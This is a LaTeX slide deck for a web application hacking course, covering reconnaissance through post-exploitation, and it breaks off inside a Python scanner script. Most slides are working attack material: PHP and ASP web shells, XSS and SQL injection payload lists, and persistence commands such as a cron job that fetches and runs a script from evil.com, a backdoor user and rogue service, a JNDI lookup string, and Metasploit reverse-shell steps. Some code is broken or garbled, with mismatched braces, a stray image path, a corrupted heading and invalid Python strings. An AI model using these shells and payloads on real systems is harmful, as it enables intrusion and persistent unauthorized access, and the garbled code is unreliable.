\documentclass[aspectratio=169,12pt]{beamer}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{tikz}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{multicol}
\usepackage{xcolor}
\usepackage{fontawesome5}
\usepackage{verbatim}

\usetheme{Madrid}
\usecolortheme{whale}
\setbeamertemplate{navigation symbols}{}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{alertred}{rgb}{0.8,0.1,0.1}
\definecolor{alertgreen}{rgb}{0.1,0.8,0.1}
\definecolor{hackercolor}{RGB}{0,128,0}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}

\title{Day 3: Web Application Hacking Methodology and Tools}
\subtitle{Comprehensive Training with Practical Examples and Hands-on Exercises}
\author{Security Training Team}
\institute{Web Application Security Department}
\date{\today}

\begin{document}

\begin{frame}
\titlepage
\end{frame}

\begin{frame}{Training Objectives}
\begin{columns}
\column{0.5\textwidth}
\textbf{Learning Outcomes:}
\begin{itemize}
\item[\faIcon{check-circle}] Understand web application hacking methodology
\item[\faIcon{check-circle}] Master reconnaissance techniques
\item[\faIcon{check-circle}] Apply scanning and enumeration methods
\item[\faIcon{check-circle}] Implement exploitation strategies
\end{itemize}
\column{0.5\textwidth}
\textbf{Practical Skills:}
\begin{itemize}
\item[\faIcon{laptop-code}] Hands-on penetration testing
\item[\faIcon{tools}] Security tool proficiency
\item[\faIcon{shield-alt}] Vulnerability identification
\item[\faIcon{clipboard-check}]{Real-world attack simulation}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}{Web Application Hacking Methodology}
\begin{columns}
\column{0.6\textwidth}
\textbf{The Hacking Lifecycle:}
\begin{enumerate}
\item \textbf{Reconnaissance}
\begin{itemize}
\item[\faIcon{search}] Information gathering
\item[\faIcon{globe}] Target identification
\item[\faIcon{map}] Attack surface mapping
\item[\faIcon{users}] Social engineering
\end{itemize}
\item \textbf{Scanning}
\begin{itemize}
\item[\faIcon{radar}] Vulnerability scanning
\item[\faIcon{network-wired}] Port scanning
\item[\faIcon{server}] Service enumeration
\item[\faIcon{fingerprint}] Technology fingerprinting
\end{itemize}
\item \textbf{Enumeration}
\begin{itemize}
\item[\faIcon{folder-open}] Directory traversal
\item[\faIcon{file-alt}] Information disclosure
\item[\faIcon{user-secret}] User enumeration
\item[\faIcon{key}] Password cracking
\end{itemize}
\item \textbf{Exploitation}
\begin{itemize}
\item[\faIcon{bomb}] Vulnerability exploitation
\item[\faIcon{unlock}] Privilege escalation
\item[\faIcon{database}] Data extraction
\item[\faIcon{desktop}] Persistence
\end{itemize}
\item \textbf{Post-Exploitation}
\begin{itemize}
\item[\faIcon{trash-alt}] Covering tracks
\item[\faIcon{chart-line}] Data exfiltration
\item[\faIcon{lock}] Maintaining access
\item[\faIcon{flag}] Achieving goals
\end{itemize}
\end{enumerate}
\column{0.4\textwidth}

\begin{tikzpicture}[scale=0.8]
\node[draw, rectangle, fill=blue!20] (recon) at (0,4) {Reconnaissance};
\node[draw, rectangle, fill=green!20] (scan) at (0,2.5) {Scanning};
\node[draw, rectangle, fill=orange!20] (enum) at (0,1) {Enumeration};
\node[draw, rectangle, fill=red!20] (exploit) at (0,-0.5) {Exploitation};
\node[draw, rectangle, fill=purple!20] (post) at (0,-2) {Post-Exploitation};

\draw[->, thick] (recon) -- (scan);
\draw[->, thick] (scan) -- (enum);
\draw[->, thick] (enum) -- (exploit);
\draw[->, thick] (exploit) -- (post);
\end{tikzpicture}
\vspace{0.5cm}
\textbf{Ethical Considerations:}
\begin{itemize}
\item[\faIcon{balance-scale}] Legal authorization required
\item[\faIcon{handshake}] Written permission
\item[\faIcon{ban}] No damage to systems
\item[\faIcon{eye-slash}] Confidentiality maintained}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Reconnaissance Techniques}
\begin{columns}
\column{0.5\textwidth}
\textbf{Passive Reconnaissance:}
\begin{itemize}
\item[\faIcon{search}] Google Dorking
\item[\faIcon{globe}] Social media analysis
\item[\faIcon{newspaper}] Public records search
\item[\faIcon{dns}] DNS enumeration
\item[\faIcon{id-card}] WHOIS lookup
\item[\faIcon{file-alt}] Document analysis
\item[\faIcon{envelope}] Email harvesting
\item[\faIcon{users}] Employee research
\end{itemize}
\textbf{Active Reconnaissance:}
\begin{itemize}
\item[\faIcon{radar}] Port scanning
\item[\faIcon{server}] Service enumeration
\item[\faIcon{fingerprint}] Banner grabbing
\item[\faIcon{folder-open}] Directory brute-forcing
\item[\faIcon{globe}] Subdomain enumeration
\item[\faIcon{network-wired]}]{Network mapping}
\end{itemize}
\column{0.5\textwidth}
\textbf{Google Dorking Examples:}
\begin{lstlisting}[language=bash]
# Find login pages
site:example.com inurl:login
site:example.com inurl:signin
site:example.com inurl:auth

# Find admin panels
site:example.com inurl:admin
site:example.com inurl:administrator
site:example.com inurl:wp-admin

# Find sensitive files
site:example.com ext:log
site:example.com ext:conf
site:example.com ext:backup
site:example.com ext:sql

# Find vulnerable files
site:example.com inurl:php?id=
site:example.com inurl:page.php?id=
site:example.com inurl:index.php?id=

# Find exposed directories
site:example.com intitle:"Index of"
site:example.com intitle:"Directory listing"
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{DNS Enumeration and Subdomain Discovery}
\begin{columns}
\column{0.5\textwidth}
\textbf{DNS Enumeration Tools:}
\begin{lstlisting}[language=bash]
# Basic DNS enumeration
host example.com
dig example.com
nslookup example.com

# Zone transfer attempt
host -l example.com example.com
dig axfr example.com @ns1.example.com

# DNS brute force
dnsenum example.com
sublist3r -d example.com

# DNS reconnaissance
dnsrecon -d example.com
amass enum -passive -d example.com

# MX record enumeration
host -t mx example.com
dig mx example.com

# SPF record lookup
host -t txt example.com
\end{lstlisting}
\textbf{Subdomain Discovery Techniques:}
\begin{itemize}
\item[\faIcon{search}] Certificate transparency logs
\item[\faIcon{globe}] Web crawling
\item[\faIcon{dns}] DNS brute force
\item[\faIcon{network-wired]}]{Network enumeration}
\end{itemize}
\column{0.5\textwidth}
\textbf{Advanced DNS Enumeration:}
\begin{lstlisting}[language=bash]
# DNS zone transfer
dnsrecon -d example.com -t axfr

# DNS brute force with wordlist
dnsenum -p 8 -s 15 -o found.txt example.com

# Subdomain enumeration with amass
amass enum -passive -d example.com -o subdomains.txt

# Certificate transparency search
crtsh -d example.com

# DNSSEC analysis
dnssec-analyze example.com

# DNS record enumeration
for type in A AAAA MX TXT CNAME SRV; do
    host -t $type example.com
done

# Reverse DNS lookup
host 93.184.216.34
dig -x 93.184.216.34
\end{lstlisting}
\textbf{Information Gathering:}
\begin{itemize}
\item[\faIcon{server}] Identify name servers
\item[\faIcon{users}] Find email addresses
\item[\faIcon{map}] Map network infrastructure
\item[\faIcon{shield-alt]}]{Identify security providers}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Scanning and Enumeration Tools}
\begin{columns}
\column{0.5\textwidth}
\textbf{Nmap Scanning Examples:}
\begin{lstlisting}[language=bash]
# Basic port scan
nmap -sS example.com

# Service version detection
nmap -sV example.com

# Aggressive scan
nmap -A example.com

# UDP scanning
nmap -sU example.com

# Port range scan
nmap -p 1-1000 example.com

# Specific port scan
nmap -p 80,443,8080 example.com

# OS detection
nmap -O example.com

# Script scanning
nmap -sC example.com

# Timing template
nmap -T4 example.com

# Output formats
nmap -oN normal.txt example.com
nmap -oX xml.xml example.com
nmap -oG grepable.txt example.com
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Web Application Scanning:}
\begin{lstlisting}[language=bash]
# Nikto web server scanning
nikto -h http://example.com

# Dirb directory enumeration
dirb http://example.com

# Dirbuster GUI tool
dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Gobuster directory busting
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Wfuzz web fuzzer
wfuzz -c -w /usr/share/wordlists/common.txt --hh 0 http://example.com/FUZZ

# Sublist3r subdomain enumeration
sublist3r -d example.com -o subdomains.txt

# Amass advanced enumeration
amass enum -passive -d example.com -o amass_results.txt
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Exploitation Methods and Techniques}
\begin{columns}
\column{0.5\textwidth}
\textbf{SQL Injection Techniques:}
\begin{lstlisting}[language=bash]
# Union-based injection
sqlmap -u "http://example.com/page.php?id=1" --dbs

# Error-based injection
sqlmap -u "http://example.com/page.php?id=1" --technique=E

# Blind injection
sqlmap -u "http://example.com/page.php?id=1" --technique=B

# Time-based injection
sqlmap -u "http://example.com/page.php?id=1" --technique=T

# Custom payload injection
sqlmap -u "http://example.com/page.php?id=1" --data="username=admin&password=pass" --level=5 --risk=3

# Post injection
sqlmap -u "http://example.com/login.php" --data="username=admin&password=pass" --method=POST

# Cookie injection
sqlmap -u "http://example.com/page.php" --cookie="PHPSESSID=12345" --level=5

# User-Agent injection
sqlmap -u "http://example.com/page.php" --user-agent="Mozilla/5.0" --level=5
\end{lstlisting}
\column{0.5\textwidth}
\textbf{XSS Attack Vectors:}
\begin{lstlisting}[language=bash]
# Reflected XSS
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>

# Stored XSS
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>

# DOM-based XSS
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>

# XSS with bypass
"><img src=x onerror=alert('XSS')>
'><img src=x onerror=alert('XSS')>
"><svg onload=alert('XSS')>
'><svg onload=alert('XSS')>

# XSS with encoding
\$\{alert('XSS')\}
javascript:alert(String.fromCharCode(88,83,83))

# XSS with attributes
<img src="x" onerror="alert('XSS')">
<input onfocus="alert('XSS')" autofocus>
<select onfocus="alert('XSS')" autofocus>
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{File Upload Vulnerabilities}
\begin{columns}
\column{0.5\textwidth}
\textbf{File Upload Bypass Techniques:}
\begin{lstlisting}[language=bash]
# Content-Type bypass
Content-Type: image/jpeg

# Double extension bypass
shell.php.jpg

# Null byte injection
shell.php%00.jpg

# Case manipulation
Shell.PHP

# Magic bytes bypass
GIF89a<?php system($_GET['cmd']); ?>

# Content-Disposition bypass
Content-Disposition: form-data; name="file"; filename="shell.php"

# Content-Length manipulation
Content-Length: 1000

# Boundary manipulation
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

# Chunked encoding
Transfer-Encoding: chunked
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Web Shell Upload:}
\begin{lstlisting}[language=php]
<?php
// Simple PHP web shell
if (isset($_REQUEST['cmd'])) {
    $output = shell_exec($_REQUEST['cmd']);
    echo "<pre>$output</pre>";
}
?>

<?php
// Advanced PHP web shell
@set_time_limit(0);
@error_reporting(0);
@ini_set('display_errors', 0);

if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    $output = '';
    
    if (function_exists('system')) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } elseif (function_exists('exec')) {
        exec($cmd, $result);
        $output = implode("\n", $result);
    } elseif (function_exists('passthru')) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    }
    
    echo base64_encode($output);
}
?>
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Post-Exploitation Techniques}
\begin{columns}
\column{0.5\textwidth}
\textbf{Persistence Methods:}
\begin{lstlisting}[language=bash]
# Create backdoor user
useradd -m hacker
passwd hacker

# SSH key persistence
mkdir -p /home/hacker/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." > /home/hacker/.ssh/authorized_keys
chown -R hacker:hacker /home/hacker/.ssh

# Cron job persistence
echo "0 * * * * /usr/bin/wget http://evil.com/payload.sh -O /tmp/payload.sh && /bin/bash /tmp/payload.sh" | crontab -

# Service persistence
echo '[Unit]
Description=Evil Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash /tmp/evil.sh
Restart=always

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/evil.service

# Web shell persistence
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php

# Database persistence
mysql -u root -p -e "CREATE USER 'hacker'@'%' IDENTIFIED BY 'password'; GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'%' WITH GRANT OPTION;"
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Privilege Escalation:}
\begin{lstlisting}[language=bash]
# SUID/GUID binaries
find / -type f -perm -4000 -ls
find / -type f -perm -2000 -ls

# World writable files
find / -writable -type f 2>/dev/null

# Cron jobs
cat /etc/crontab
ls -la /etc/cron.*

# Environment variables
env
printenv

# Network information
netstat -tulpn
ss -tulpn

# Process information
ps aux
ps -ef

# File permissions
ls -la /etc/passwd
ls -la /etc/shadow

# Sudo permissions
sudo -l
cat /etc/sudoers

# Kernel exploits
uname -a
searchsploit kernel $(uname -r)

# PATH manipulation
echo $PATH
which $(whoami)
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Web Shells and Command Execution}
\begin{columns}
\column{0.5\textwidth}
\textbf{PHP Web Shells:}
\begin{lstlisting}[language=php]
<?php
// Simple PHP web shell
if (isset($_REQUEST['cmd'])) {
    $output = shell_exec($_REQUEST['cmd']);
    echo "<pre>$output</pre>";
}
?>

<?php
// Advanced PHP web shell
@set_time_limit(0);
@error_reporting(0);
@ini_set('display_errors', 0);

if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    $output = '';
    
    if (function_exists('system')) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } elseif (function_exists('exec')) {
        exec($cmd, $result);
        $output = implode("\n", $result);
    } elseif (function_exists('passthru')) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } elseif (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    }
    
    echo "<pre>$output</pre>";
}
?>
\end{lstlisting}
\column{0.5\textwidth}
\textbf{ASP Web Shells:}
\begin{lstlisting}[language=asp]
<%@ Language=VBScript %>
<%
' Simple ASP web shell
If Request("cmd") <> "" Then
    Set objShell = Server.CreateObject("WScript.Shell")
    Set objExec = objShell.Exec("cmd.exe /c " & Request("cmd"))
    strOutput = objExec.StdOut.ReadAll()
    Response.Write "<pre>" & strOutput & "</pre>"
End If
%>

<%@ Language=VBScript %>
<%
' Advanced ASP web shell
On Error Resume Next
Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
Set objShell = Server.CreateObject("WScript.Shell")

If Request("cmd") <> "" Then
    Set objExec = objShell.Exec("cmd.exe /c " & Request("cmd"))
    strOutput = ""
    Do While Not objExec.StdOut.AtEndOfStream
        strOutput = strOutput & objExec.StdOut.ReadLine() & vbCrLf
    Loop
    Response.Write "<pre>" & strOutput & "</pre>"
End If
%>
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Web API Security Testing}
\begin{columns}
\column{0.5\textwidth}
\textbf{API Security Testing:}
\begin{lstlisting}[language=bash]
# Basic API testing with curl
curl -X GET "http://api.example.com/users"
curl -X POST "http://api.example.com/users" \
  -H "Content-Type: application/json" \
  -d '{"name":"John","email":"john@example.com"}'

# API authentication testing
curl -X GET "http://api.example.com/users" \
  -H "Authorization: Bearer token123"

# API rate limiting testing
for i in {1..100}; do
    curl -X GET "http://api.example.com/users"
done

# API parameter tampering
curl -X GET "http://api.example.com/users?id=1' OR '1'='1"

# API SQL injection testing
curl -X GET "http://api.example.com/users?id=1 UNION SELECT username,password FROM users"

# API XSS testing
curl -X POST "http://api.example.com/users" \
  -H "Content-Type: application/json" \
  -d '{"name":"<script>alert('XSS')</script>"}'

# API file upload testing
curl -X POST "http://api.example.com/upload" \
  -F "file=@malicious.php"
\end{lstlisting}
\column{0.5\textwidth}
\textbf{API Security Headers:}
\begin{lstlisting}[language=bash]
# Check security headers
curl -I "http://api.example.com/users"

# Common security headers
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 01 Jan 2024 12:00:00 GMT
Content-Type: application/json
Content-Length: 1234

# Security headers to check
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src 'self'
X-Permitted-Cross-Domain-Policies: none
X-Download-Options: noopen
Referrer-Policy: strict-origin-when-cross-origin

# API specific headers
X-API-Version: 1.0
X-RateLimit-Limit: 100
X-RateLimit-Remaining: 95
X-RateLimit-Reset: 1640995200
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Hands-on Lab: Practical Hacking Exercises}
\begin{columns}
\column{0.5\textwidth}
\textbf{Lab Objectives:}
\begin{itemize}
\item[\faIcon{target}] Apply hacking methodology in practice
\item[\faIcon{tools}] Use security tools effectively
\item[\faIcon{search}] Identify and exploit vulnerabilities
\item[\faIcon{clipboard-check}] Document findings and recommendations
\end{itemize}
\textbf{Lab Environment Setup:}
\begin{lstlisting}[language=bash]
# Setup vulnerable applications
docker run -p 8080:80 vulnerable-web-app
docker run -p 8081:80 dvwa
docker run -p 8082:80 bodgeit

# Security tools to use
- Burp Suite Community Edition
- OWASP ZAP
- Metasploit Framework
- Nmap
- SQLMap
- Nikto
- Dirb/Dirbuster
- Wfuzz
\end{lstlisting}
\column{0.5\textwidth}
\textbf{Lab Tasks:}
\begin{enumerate}
\item \textbf{Reconnaissance Phase}
\begin{itemize}
\item Perform DNS enumeration
\item Conduct subdomain discovery
\item Gather information from public sources
\item Document findings
\end{itemize}
\item \textbf{Scanning Phase}
\begin{itemize}
\item Run port scanning
\item Perform service enumeration
\item Identify web technologies
\item Document vulnerabilities
\end{itemize}
\item \textbf{Enumeration Phase}
\begin{itemize}
\item Discover hidden directories
\item Identify user accounts
\item Map application structure
\item Document attack surface
\end{itemize}
\item \textbf{Exploitation Phase}
\begin{itemize}
\item Test for SQL injection
\item Exploit XSS vulnerabilities
\item Upload web shells
\item Document exploitation results
\end{itemize}
\item \textbf{Post-Exploitation Phase}
\begin{itemize}
\item Establish persistence
\item Escalate privileges
\item Extract data
\item Document findings and recommendations
\end{itemize}
\end{enumerate}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Practical Example: Vulnerable Web Application}
\begin{columns}
\column{0.5\textwidth}
\textbf{Vulnerable Application Features:}
\begin{enumerate}
\item \textbf{SQL Injection Vulnerability}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Login bypass
\item[\faIcon{exclamation-triangle}] Data extraction
\item[\faIcon{exclamation-triangle}] Union-based attacks
\item[\faIcon{exclamation-triangle}]{Blind injection}
\end{itemize}
\item \textbf{XSS Vulnerability}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Reflected XSS
\item[\faIcon{exclamation-triangle}] Stored XSS
\item[\faIcon{exclamation-triangle}] DOM-based XSS
\item[\faIcon{exclamation-triangle}]{XSS in multiple contexts}
\end{itemize}
\item \textbf{File Upload Vulnerability}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Unrestricted file upload
\item[\faIcon{exclamation-triangle}] Content-Type bypass
\item[\faIcon{exclamation-triangle]}]{Web shell upload}
\item[\faIcon{exclamation-triangle}]{Path traversal}
\end{itemize}
\item \textbf{Insecure Direct Object References}
\begin{itemize}
\item[\faIcon{exclamation-triangle}] Parameter tampering
\item[\faIcon{exclamation-triangle]}]{Access control bypass}
\item[\faIcon{exclamation-triangle]}]{Privilege escalation}
\item[\faIcon{exclamation-triangle}]{Data exposure}
\end{itemize}
\end{enumerate}
\column{0.5\textwidth}
\textbf{Docker Compose Setup:}
\begin{lstlisting}[language=yaml]
version: '3.8'

services:
  # DVWA (Damn Vulnerable Web App)
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    environment:
      - MYSQL_ROOT_PASSWORD=rootpassword
      - MYSQL_DATABASE=dvwa
      - MYSQL_USER=dvwa
      - MYSQL_PASSWORD=dvwa
    depends_on:
      - mysql

  # OWASP WebGoat
  webgoat:
    image: webgoat/webgoat-8.0
    ports:
      - "8081:8080"
    environment:
      - SPRING_PROFILES_ACTIVE=prod

  # Mutillidae II
  mutillidae:
    image: webpwnized/mutillidae
    ports:
      - "8082:80"

  # MySQL Database
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: rootpassword
      MYSQL_DATABASE: dvwa
      MYSQL_USER: dvwa
      MYSQL_PASSWORD: dvwa
    volumes:
      - mysql_data:/var/lib/mysql

  # Redis Cache
  redis:
    image: redis:alpine
    ports:
      - "6379:6379"

volumes:
  mysql_data:
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Burp Suite Configuration and Usage}
\begin{columns}
\column{0.5\textwidth}
\textbf{Burp Suite Setup:}
\begin{lstlisting}[language=bash]
# Install Burp Suite Community
sudo apt update
sudo apt install -y default-jre
wget -O burpsuite.sh https://portswigger.net/burp/download
chmod +x burpsuite.sh
./burpsuite.sh

# Configure proxy settings
# Browser proxy: 127.0.0.1:8080
# Burp Suite proxy: 127.0.0.1:8080

# Common Burp Suite commands
burpsuite --version
burpsuite --help

# Start Burp Suite in headless mode
burpsuite --config-file=burp_config.xml
\end{lstlisting}
\textbf{Burp Suite Scanner Configuration:}
\begin{itemize}
\item[\faIcon{cog}] Configure scan policies
\item[\faIcon{cog}] Set scan scope
\item[\faIcon{cog}] Configure advanced settings
\item[\faIcon{cog}]{Custom scan templates}
\end{itemize}
\column{0.5\textwidth}
\textbf{Burp Suite Intruder Usage:}
\begin{lstlisting}[language=bash]
# Example payload lists for common attacks

# SQL injection payloads
1' OR '1'='1
1' OR '1'='1' --
1' OR '1'='1' #
1' OR '1'='1' /*
admin' --
admin' #
admin' /*
admin' OR '1'='1
admin' OR '1'='1' --
admin' OR '1'='1' #

# XSS payloads
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
"><img src=x onerror=alert('XSS')>
'><img src=x onerror=alert('XSS')>
"><svg onload=alert('XSS')>
'><svg onload=alert('XSS')>
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>

# Command injection payloads
; whoami
&& whoami
|| whoami
| whoami
\`whoami\`
\${jndi:ldap://evil.com/a}
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{OWASP ZAP Configuration and Usage}
\begin{columns}
\column{0.5\textwidth}
\textbf{OWASP ZAP Setup:}
\begin{lstlisting}[language=bash]
# Install OWASP ZAP
sudo apt update
sudo apt install -y owasp-zap

# Start OWASP ZAP
owasp-zap -daemon -host 0.0.0.0 -port 8090 -config api.key=12345

# Access OWASP ZAP web interface
# http://localhost:8090

# OWASP ZAP API usage
curl -X POST "http://localhost:8090/JSON/ascan/action/scan" \
  -H "Content-Type: application/json" \
  -d '{"url": "http://example.com", "scanPolicyName": "Default Policy"}'

# Get scan status
curl -X GET "http://localhost:8090/JSON/ascan/view/status" \
  -H "Content-Type: application/json"

# Generate report
curl -X POST "http://localhost:8090/JSON/core/action/generateReport" \
  -H "Content-Type: application/json" \
  -d '{"title": "Security Report", "template": "traditional-html", "reportFileName": "security_report.html", "reportDir": "/tmp"}'
\end{lstlisting}
\column{0.5\textwidth}
\textbf{OWASP ZAP Automation:}
\begin{lstlisting}[language=python]
import requests
import time

# OWASP ZAP API client
class ZapClient:
    def __init__(self, zap_url, api_key):
        self.zap_url = zap_url
        self.api_key = api_key
        self.base_url = f"{zap_url}/JSON"
    
    def start_scan(self, target_url):
        """Start a new scan"""
        scan_url = f"{self.base_url}/ascan/action/scan"
        params = {
            'url': target_url,
            'scanPolicyName': 'Default Policy',
            'apikey': self.api_key
        }
        response = requests.post(scan_url, params=params)
        return response.json()
    
    def get_scan_status(self):
        """Get scan progress"""
        status_url = f"{self.base_url}/ascan/view/status"
        params = {'apikey': self.api_key}
        response = requests.get(status_url, params=params)
        return response.json()
    
    def generate_report(self, report_type='traditional-html'):
        """Generate security report"""
        report_url = f"{self.base_url}/core/action/generateReport"
        params = {
            'title': 'Security Report',
            'template': report_type,
            'reportFileName': 'security_report.html',
            'reportDir': '/tmp',
            'apikey': self.api_key
        }
        response = requests.post(report_url, params=params)
        return response.json()

# Usage example
zap = ZapClient('http://localhost:8090', '12345')
zap.start_scan('http://example.com')
time.sleep(60)  # Wait for scan to complete
status = zap.get_scan_status()
print(f"Scan status: {status}")
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Metasploit Framework Usage}
\begin{columns}
\column{0.5\textwidth}
\textbf{Metasploit Setup:}
\begin{lstlisting}[language=bash]
# Install Metasploit
sudo apt update
sudo apt install -y metasploit-framework

# Start Metasploit console
msfconsole

# Update Metasploit
msfupdate

# Common Metasploit commands
help                    # Show help
search [type] [keyword] # Search modules
use [module]            # Use a module
info                    # Show module info
show options            # Show module options
set [option] [value]    # Set option
run/exploit             # Run the module
sessions                # List active sessions
sessions -u [id]        # Upgrade session
\end{lstlisting}
\textbf{Common Metasploit Modules:}
\begin{itemize}
\item[\faIcon{bomb}] exploit/multi/http/php_cgi_arg_injection
\item[\faIcon{bomb}] exploit/unix/webapp/wp_admin_shell_upload
\item[\faIcon{bomb}] exploit/windows/smb/ms17_010_eternalblue
\item[\faIcon{bomb}]{exploit/multi/http/struts2_devmode}
\end{itemize}
\column{0.5\textwidth}
\textbf{Metasploit Web Exploits:}
\begin{lstlisting}[language=bash]
# Search for web exploits
search type:web

# Use a web exploit
use exploit/multi/http/php_cgi_arg_injection

# Set options
set RHOSTS 192.168.1.100
set RPORT 80
set TARGETURI /path/to/webapp
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.101
set LPORT 4444

# Run the exploit
run

# Interact with session
sessions -l
sessions -u 1
sessions -i 1

# Post-exploitation commands
sysinfo
getuid
ps
ls
cat /etc/passwd
upload /tmp/backdoor.php /var/www/html/backdoor.php
\end{lstlisting}
\textbf{Post-Exploitation:}
\begin{itemize}
\item[\faIcon{desktop}] System information gathering
\item[\faIcon{users}] User enumeration
\item[\faIcon{folder-open}] File system access
\item[\faIcon{lock}] Persistence mechanisms}
\end{itemize}
\end{columns}
\end{frame}

\begin{frame}[fragile]{Security Testing Automation}
\begin{columns}
\column{0.5\textwidth}
\textbf自动化安全测试脚本:}
\begin{lstlisting}[language=python]
import requests
import subprocess
import json
from concurrent.futures import ThreadPoolExecutor

class SecurityTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.results = []
    
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        sql_payloads = [
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR '1'='1' #",
            "' OR '1'='1' /*",
            "admin' --",
            "admin' #",
            "admin' /*",
            "admin' OR '1'='1"
        ]
        
        vulnerable_params = ['id', 'user', 'username', 'email', 'search']
        
        for param in vulnerable_params:
            for payload in sql_payloads:
                test_url = f"{self.target_url}?{param}={payload}"
                try:
                    response = self.session.get(test_url, timeout=10)
                    if self._is_sql_injection(response):
                        self.results.append({
                            'type': 'SQL Injection',
                            'url': test_url,
                            'payload': payload,
                            'severity': 'High'
                        })
                except Exception as e:
                    print(f"Error testing {test_url}: {e}")
    
    def test_xss(self):
        """Test for XSS vulnerabilities"""
        xss_payloads = [
            "<script>alert('XSS')</script>",
            '"><script>alert('XSS')</script>',
            '\'><script>alert('XSS')</script>',
            '"><img src=x onerror=alert('XSS')>',
            '\'><img src=x onerror=alert('XSS')>',
            '"><svg onload=alert('XSS')>',
            '\'><svg onload=alert('XSS')>',
            'javascript:alert('XSS')',
            'data:text/html,<script>alert('XSS')</script>'
        ]
        
        vulnerable_params = ['search', 'query', 'q', 'term', 'keyword']
        
        for param in vulnerable_params:
            for payload in xss_payloads:
                test_url = f"{self.target_url}?{param}={payload}"
                try:
                    response = self.session.get(test_url, timeout=10)
                    if self._is_xss(response):
                        self.results.append({
                            'type': 'XSS',
                            'url': test_url,
                            'payload': payload,
                            'severity': 'Medium'
                        })
                except Exception as e:
                    print(f"Error testing {test_url}: {e}")
    
    def run_nmap_scan(self):
        """Run Nmap scan on target"""
        try:
            result = subprocess.run(
                ['nmap', '-sV', '-sC', self.target_url],
                capture_output=True,
                text=True,
                timeout=300
            )
            if result.returncode == 0:
                self.results.append({
                    'type': 'Nmap Scan',
                    'output': result.stdout,
                    'severity': 'Info'
                })
        except Exception as e:
            print(f"Nmap scan failed: {e}")
    
    def generate_report(self):
        """Generate security report"""
        report = {
            'target': self.target_url,
            'scan_date': '2024-01-01',
            'findings': self.results,
            'summary': {
                'total_findings': len(self.results),
                'high_risk': len([f for f in self.results if f['severity'] == 'High']),
